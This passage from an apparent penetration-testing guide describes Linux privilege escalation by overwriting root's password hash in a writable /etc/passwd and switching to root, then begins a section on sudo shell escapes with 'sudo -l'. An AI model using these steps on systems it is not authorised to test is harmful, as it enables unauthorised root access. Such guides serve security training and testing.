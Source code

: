 Edit the /etc/passwd file and place the generated password hash between the first and second colon (:) of the root user's row (replacing the "x"). Switch to the root user, using the new password

**Victim**

```
vi /etc/passwd
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su root
Password: newpasswordhere
```

<figure><img src="../../.gitbook/assets/image (10) (4) (1).png" alt=""><figcaption></figcaption></figure>

## Sudo - Shell Escape Sequences

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (19) (6) (1).png" alt=""><figcaption></figcaption></figure>
